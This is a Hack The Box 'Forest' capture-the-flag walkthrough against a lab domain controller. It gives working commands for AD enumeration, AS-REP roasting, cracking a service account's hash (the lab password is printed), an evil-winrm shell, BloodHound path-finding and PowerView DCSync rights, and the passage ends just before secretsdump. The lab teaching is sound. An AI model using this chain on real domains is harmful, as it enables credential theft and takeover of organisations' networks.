# Hackthebox Forest Writeup / Walkthrough

Forest is a Windows box marked as Easy on Hackthebox.  From its name, it probably will have something to do with Active Directory (a forest is a logical container in Active Directory that contains normal Active Directory objects, such as domains, computers, users, and group policy).

Let's get started with enumeration.  As usual, we will use nmap to see what services are listening on the box.

## Initial Enumeration
```bash
# -sC: Run default NSE scripts
# -sV: Try to gather information on services running on the box
# -Pn: Do not ping the box before trying to scan it
# 10.10.10.161 is our target

root@kali:~/hackthebox/forest# nmap -sC -sV -Pn 10.10.10.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-01 07:38 EST
Nmap scan report for 10.10.10.161
Host is up (0.048s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-01 12:46:15Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/1%Time=5DE3B477%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m01s, deviation: 4h37m08s, median: 7m00s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2019-12-01T04:48:35-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-01T12:48:38
|_  start_date: 2019-12-01T12:04:36

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 295.36 seconds
```

This is interesting.  Most Hackthebox boxes have a web server listening with an app that has to be exploited.  There is no traditional web server listening that we can see here.  However, we gained some interesting information from the nmap scan:

  * The box is running Windows Server 2016 1607 (build 14393 corresponds to version 1607<sup>[1]</sup>).
  * The box is named forest, and it is part of the htb.local domain.  Its FQDN is forest.htb.local.

To make things easier, we will add the box's hostnames to ```/etc/hosts```:
```bash
# /etc/hosts
...
10.10.10.161 forest.htb.local htb.local
...
```

Since the domain controller is the name server for the domain, we can refer to the domain controller by the domain name.

## User Enumeration
Now that we know we working with Active Directory, we need to enumerate the domain to see what users are part of the domain.  Fortunately, Active Directory lets you get a lot of information even without credentials.

We will make heavy use of the examples provided with the impacket Python library.  impacket<sup>[2]</sup> is a library that provides programmatic ways to interface with a number of network and authentication protocols.  We will use it to enumerate the Domain Controller and get useful information.

I like to use the most current version of impacket by cloning the Git repo into a Python virtual environment and running it from there.  That keeps impacket contained in its own environment.  If there are other Python scripts we are using that depend on certain versions of libraries that impacket also uses, we will not disrupt those other scripts.  In case you are not sure how to do that, let's take it step by step:
```bash
# Choose a directory where impacket will live.  I chose /opt for this example
cd /opt

# Clone the repository - it will be cloned to /opt/impacket
git clone https://github.com/SecureAuthCorp/impacket

# Create a virtual environment in the repository directory
# We will use Python3
python3 -m venv impacket

# Go into the impacket directory
cd impacket

# Activate the virtual environment
source bin/activate

# Install impacket in the virtual environment
pip install .
```

All of the tools we are using are in the ```examples``` directory.  First, let's get a list of users.  We will use ```GetADUsers.py```.  Here is the syntax we will use:
```bash
# -all tells GetAdUsers to get all users
# htb.local is the domain
# -dc-ip is the IP of the DC we want to use: 10.10.10.161
python GetADUsers.py -all htb.local/ -dc-ip 10.10.10.161
```

Let's see what we get back:
```bash
(impacket) root@kali:/opt/impacket/examples# python GetADUsers.py -all htb.local/ -dc-ip 10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.161 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator         Administrator@htb.local         2019-09-18 13:09:08.342879  2019-10-07 06:57:07.299606 
Guest                                                 <never>              <never>             
DefaultAccount                                        <never>              <never>             
krbtgt                                                2019-09-18 06:53:23.467452  <never>             
$331000-VK4ADACQNUCA                                  <never>              <never>             
SM_2c8eef0a09b545acb  SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.local  <never>              <never>             
SM_ca8c2ed5bdab4dc9b  SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.local  <never>              <never>             
SM_75a538d3025e4db9a  SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.local  <never>              <never>             
SM_681f53d4942840e18  DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB852}@htb.local  <never>              <never>             
SM_1b41c9286325456bb  Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local  <never>              <never>             
SM_9b69f1b9d2cc45549  FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.local  <never>              <never>             
SM_7c96b981967141ebb  SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.local  <never>              <never>             
SM_c75ee099d0a64c91b  SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.local  <never>              <never>             
SM_1ffab36a2f5f479cb  SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.local  <never>              <never>             
HealthMailboxc3d7722  HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local  2019-09-23 18:51:31.892097  2019-09-23 18:57:12.361516 
HealthMailboxfc9daad  HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local  2019-09-23 18:51:35.267114  2019-09-23 18:52:05.736012 
HealthMailboxc0a90c9  HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local  2019-09-19 07:56:35.206329  <never>             
HealthMailbox670628e  HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local  2019-09-19 07:56:45.643993  <never>             
HealthMailbox968e74d  HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local  2019-09-19 07:56:56.143969  <never>             
HealthMailbox6ded678  HealthMailbox6ded67848a234577a1756e072081d01f@htb.local  2019-09-19 07:57:06.597012  <never>             
HealthMailbox83d6781  HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local  2019-09-19 07:57:17.065809  <never>             
HealthMailboxfd87238  HealthMailboxfd87238e536e49e08738480d300e3772@htb.local  2019-09-19 07:57:27.487679  <never>             
HealthMailboxb01ac64  HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local  2019-09-19 07:57:37.878559  <never>             
HealthMailbox7108a4e  HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local  2019-09-19 07:57:48.253341  <never>             
HealthMailbox0659cc1  HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local  2019-09-19 07:57:58.643994  <never>             
sebastien                                             2019-09-19 20:29:59.544725  2019-09-22 18:29:29.586227 
lucinda                                               2019-09-19 20:44:13.233891  <never>             
svc-alfresco                                          2019-12-01 08:42:53.797477  2019-09-23 07:09:47.931194 
andy                                                  2019-09-22 18:44:16.291082  <never>             
mark                                                  2019-09-20 18:57:30.243568  <never>             
santi                                                 2019-09-20 19:02:55.134828  <never>
```

From all of the mailbox accounts, it seems like Exchange may be in this environment.  We will note it in case it is useful later.  We also have six accounts: sebastien, lucinda, svc-alfresco, andy, mark, and santi.

## A Tangent to Talk about Kerberos
In domain environments, Kerberos authentication is used.  An in-depth discussion of Kerberos is beyond the scope of this write up.  However, there are some relevant concepts we need to cover.

When a user wants to use a service, he or she asks the Key Distribution Center (KDC, the domain controller in an Active Directory environment) for a Ticket Granting Ticket (TGT, used to obtain a service ticket to a specific resource you want to access).  Normally, when you ask for a TGT from the KDC, you have to supply what is called an AS-REQ.  By default, the AS-REQ is a timestamp encrypted with a user's key / password hash.  When the KDC decrypts the request (which it can do since it is the domain controller and has the user's password hash), it will know that the user sent it.  It will also know the request is not being replayed because the timestamp that was encrypted will be recent.  If the AS-REQ is valid, the KDC sends back an AS-REP.  The AS-REP is signed with the key of the client that encrypted the AS-REQ.  If we have an AS-REP for a user, we could guess or brute force the password offline.

The idea of encrypting the AS-REQ in this way is called Kerberos pre-authentication.  Pre-authentication tries to prevent password guessing described above.  In order to get the AS-REP, we would have to supply an AS-REQ encrypted with the user's key (and we would not need the AS-REP if we already have their key).  Older versions of Kerberos did not support pre-authentication.  To maintain backwards compatibility, pre-authentication can be disabled on specific accounts within an Active Directory environment.  If any of the accounts we identified previously have pre-authentication disabled, we will be able to get an AS-REP from the server signed with the key of that account.  We can take that AS-REP and crack it with something like hashcat or john.

So why do I mention all of this?  Since we do not have any passwords for users on the domain or access to any user's machine, we need to try enumerating ways which we can gain credentials.  It is a long shot because a domain administrator has to go in and flip the switch to turn off pre-authentication for a user.  However, we do not have many other leads at this point, so it is worth a shot.

## Kerberos Pre-Authentication
We will use another impacket example tool to see if there are any users with pre-authentication turned off, and if so, ask the domain controller for an AS-REP for those users.  The tool we will use is ```GetNPUsers.py```.  Before we run the command, we will need to put the user names we found into a file so that ```GetNPUsers.py``` knows which users we want to ask the DC about.  We will take each of the six names we found above and them in a text file, each on their own line.

Let's set the command up:
```bash
# -dc-ip 10.10.10.161: Specify the IP of the DC we want to talk to
# -usersfile ~/hackthebox/forest/users.txt: The text file with each user name we want to ask about
# -format john: If we find a user without pre-auth set, get the AS-REP and give it to us in a format we can feed to John the Ripper.  If you want to use hashcat, you can use -format hashcat instead.
# htb.local/ is the domain (that forward slash is important)

python GetNPUsers.py -dc-ip 10.10.10.161 -usersfile ~/hackthebox/forest/users.txt -format john htb.local/ 
```

```bash
root@kali:/opt/impacket/examples# python GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -usersfile ~/hackthebox/forest/users.txt -format john
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:b2defca4d2eb571cb77fa05e040c0fb3$de3019e559c5c9d86f2cb555cdfd3b758f3cc8baa741ed53fd4bc2cd8b1d83f8c88284ef890ca5ba9c2d8f8822f757d133474ea4840586db0d8ab37ec89ba99140864cdd637154b3c42db5bcdd2c42064a44ca50534dd4429bf6c39046613d224fcbb9bb261564b8dce63f3a56abd745216f21a5e96a3975a90eb72be212b87be0b1639fc28753a71cfbf4f03da92db31b0529d02d5e1da28587ec1d68abffe0dee1e652bbda8ed9f16140f6f34de96fb162f72796e3975f20f6b61bc7a964cc354f93eb475e67599a3af39f77006545be90df57fc5ad14930b94f8f4dfbf70b44bb9736a1a0
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## Cracking svc-alfresco's AS-REP
Looks like we have a hash for ```svc-alfresco```.  This is interesting because the ```svc``` in front implies it may be a service account.  Service accounts typically have additional privileges in a domain environment.  Passwords for service accounts rarely change because that would mean reconfiguring whatever service depends on that account, and if it ain't broke, don't fix it, right?

Let's copy that hash to a text file (I called it ```svc-alfresco_hash.john```) and see if John can crack it:
```bash
root@kali:~/hackthebox/forest# john svc-alfresco_hash.john --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:01 DONE (2019-12-01 08:47) 0.5181g/s 2116Kp/s 2116Kc/s 2116KC/s s521379846..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Using the Credentials
Awesome!  We have a plaintext password for ```svc-alfresco```.  What can we do with it?  We can try things like ```psexec``` or ```smbexec```, but since this is a modern version of Windows server, there is a decent chance that WinRM (Windows Remote Management) will be enabled.  WinRM is based on SOAP (Simple Object Access Protocol) which uses HTTP(S) to communicate<sup>[5]</sup>.  If WinRM is enabled, we will be able to get a shell very easily.  We can see if WinRM is listening by scanning for TCP port 5985 (port 5986 is used for WinRM over HTTPS).

Let's use nmap to see if port 5985 or 5986 are open.  These ports are not included in the default set of 1,000 ports that nmap scans, so we will have to specify them:
```bash
nmap -sS -p 5985,5986 10.10.10.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-01 08:50 EST
Nmap scan report for forest.htb.local (10.10.10.161)
Host is up (0.37s latency).

PORT     STATE  SERVICE
5985/tcp open   wsman
5986/tcp closed wsmans

Nmap done: 1 IP address (1 host up) scanned in 0.77 seconds
```

It looks like 5985 is open but 5986 is closed.  We will use a tool called ```evil-winrm```<sup>[6]</sup> to interact with WinRM on the target.  ```evil-winrm``` gives us a shell complete with tab completion, arrows, and colored output.  These things are not necessary, but they are nice to have.

On Kali or any box with Ruby installed, you can install the ```evil-winrm``` gem which will pull in all of the dependencies:
```bash
gem install evil-winrm
```

## Using evil-winrm to interact with the target
Once you have ```evil-winrm``` installed, you can use it with the credentials we recovered to get a shell on the target as ```svc-alfresco```:

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco
```

After a bit of poking around, we find the user flag in ```C:\Users\svc-alfresco\Desktop\```:


## Using BloodHound for AD Enumeration
After a bit of enumeration on the box, there does not appear to be any immediately obvious vectors to escalate privileges like credentials left on disk or something running we can exploit.  That does not mean we are stuck.

In an Active Directory enviroment, objects (users, groups, computers, domains, et cetera) are interconnected.  Objects have permissions attached to them that dictate how other objects can interact with them.  For example, if we had the WriteDACL permission on an object, we could change its access control list and give ourselves full control over that object.  With the right permissions in place, we may be able to change properties on various objects in the domain which will allow us to escalate privileges.  But with the complexity of Active Directory environments, how do we do that efficiently?

Enter BloodHound<sup>[7]</sup>.  BloodHound takes information about the various objects and their properties and presents it in a graph that we can use to determine attack paths between the access we have and where we want to be.

To get Bloodhound set up, there are several guides available, such as [this one](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/).

BloodHound makes use of ingestors that query the domain controller for the information we need to graph the relationships in the domain.  We will use an ingestor to grab the data we need then use BloodHound to figure out a possible path forward.

BloodHound ships with an ingestor called SharpHound (a reference to the fact that it is coded in C#) provided as an executable and a PowerShell script.  Unfortunately, neither would work through my Evil-WinRM session.  After running the command, I was returned to the prompt, no error or anything. Fortunately, Fox-It wrote a BloodHound ingestor written in Python that can be run remotely.  The ingestor is available on Github<sup>[9]</sup>.

To install it, we can use the same procedure as we did for impacket (see above).  Once we have it set up, we can run it:
```bash
# bloodhound-python is the ingestor
# -c all tells bloodhound-python to get all available information (groups, users, local admins, ACLs, and others)
# -u svc-alfresco@htb.local is the user we will use to gather the data
# -p is svc-alfresco's password that we recovered before
# -ns 10.10.10.161 forces bloodhound-python to use the target domain controller as the DNS server (since our machine is not using the target DC for name resolution)
# -d htb.local tells bloodhound-python that the domain is htb.local
# -dc htb.local is the domain controller we want to query - a host name is required - we set this up in /etc/hosts

bloodhound-python -c all -u svc-alfresco@htb.local -p s3rvice -ns 10.10.10.161 -d htb.local -dc htb.local
```



Once we run it, we get a number of JSON files:



We will need to import these into Bloodhound.  Once you are logged into Bloodhound, click the upload data button on the right


Select all of your JSON files and hit Open.  Once they are ingested, we can start interrogating the data.  There are a number of built-in queries, but we will not be using those.  In this case, they do not give us the path we need to escalate privileges.

We will start with the object we have control over (svc-alfresco).  Start typing svc-alfresco in the top left text box next to the hamburger (three line) menu.  Bloodhound will suggest svc-alfresco.  Click that and svc-alfresco will pop up in the middle of the screen.  Right click the node and click "Mark user as owned."  A skull will appear in the top left corner of the node.


We want to mark svc-alfresco as owned so that it will be easier to derive paths from it later on.

Now, we need to see what objects in the domain that svc-alfresco can affect.  In the Node Info tab in the top left, click the 91 next to "Transitive Object Control" under Group Delegated Object Control.



To make things a bit easier, we need to switch to the directed view using the Change Layout Button at the top right:



Once you change the layout, it will look something like this:



If we glance at the graph, we see that HTB.local is in the graph which means there may be a path to it.  If we right click the HTB.LOCAL node and click "Shortest Paths to Here from Owned Principals", we see that svc-alfresco is a member of "Service Accounts" which is a member of "Privileged IT Accounts".  "Privileged IT Accounts" is a member of Account Operators.  Account Operators has "GenericAll" (or full control) over the "Exchange Windows Permissions" group.  Members of the "Exchange Windows Permissions" group can modify the access control list (WriteDACL) on the domain htb.local.



What can we do with this information?

With the ability to change the access control list on the domain itself, we can give ourselves whatever permissions we want on the domain object itself.  We do not have the ability to directly modify or add domain administrators, but we can gain credentials for all users on the domain using the DCSync technique.

## What is DCSync?
In Active Directory environments, it is common to have more than one domain controller to share the load and in case something happens to another domain controller in the domain.  All of the domain controllers in a domain must stay synchronized when things happen like a user changing a password or a computer being added or removed from the domain.  They do this through a process called replication.

DCSync<sup>[10]</sup> leverages replication to get a copy of domain user credentials by pretending to be a domain controller and requesting replication of users.  To achieve this, the account that performs the replication must have the following three permissions on the domain object:

  * Replicating Directory Changes (This is needed to replicate *anything* on the domain.)
  * Replicating Directory Changes All (This is needed to replicate everything in the domain, including user credentials and other secrets.)
  * Replicating Directory Changes In Filtered Set (This is used to replicate items that are not stored on read-only domain controllers (RODCs)<sup>[11]</sup>.  RODCs are used when you cannot or do not want to deploy a full domain controller.  RODCs only get a subset of the active directory schema (database) called a filtered attribute set (FAS).)
  
For this example, we probably only need the first two permissions since this is likely the only domain controller in the domain.  However, the tool we will use to give us DCSync rights will give us all three.  That is fine for this example.

So here is our plan:
  1.  Add svc-alfresco to the "Exchange Windows Permissions" group.  This will put us in a group that can make changes to the permissions (ACL) on the domain object (htb.local).  We will have to logout then back in for the change to take effect.
  2.  Give ourselves DCSync rights to the domain.  This allows us to replicate domain objects including the hashes of domain users.
  3.  We will either crack or leverage those credentials to login as a domain administrator to get the root flag.

## Adding Ourselves to the Exchange Windows Permissions Group
Fortunately, adding ourselves to the group is very easy.  We can use the built-in Windows command ```net group```.

Let's see it in action by getting a list of groups we are in currently before we add ourselves to the Exchange Windows Permissions group:



After we add ourselves with ```net group "Exchange Windows Permissions" svc-alfresco /add```, logout, then log back in:



## Getting DCSync Rights
We will use PowerView<sup>[12]</sup> for this which conveniently has a command for giving ourselves DCSync rights.

On my Kali box, PowerView is available in ```/opt/Empire/data/module_source/situational_awareness/network/powerview.ps1```.  It is the same file as what is available on Github.

Let's upload it through ```evil-winrm``` (I will upload it to svc-alfresco's temp directory AppData\Local\Temp):
```
# cd ..\AppData\Local\Temp before uploading or add the path to the end of the upload command

upload /opt/Empire/data/module_source/situational_awareness/network/powerview.ps1

# Then import the module into our session
Import-Module .\powerview.ps1
```

If we use the ```menu``` command in ```evil-winrm```, we can see that we have the functions from PowerView available to us.  The one that we need is ```Add-DomainObjectAcl```.



To give ourselves DCSync rights, we use the following command:
```powershell
# -TargetIdentity is the domain object we want to modify.  In this case, it is the domain object itself
# -PrincipalIdentity is the domain object we want to give the rights to (our use in this case)
# -Rights DCSync tells PowerView to try to get DCSync rights (the three permissions we outlined above)

Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
```

There will not be any output if it works, so let's use another impacket tool called ```secretsdump.py``` to perform the replication and give us the domain hashes:


```bash
# htb.local is in our hosts file.  You can also add -dc-ip 10.10.10.161 if you do not want to modify your hosts file

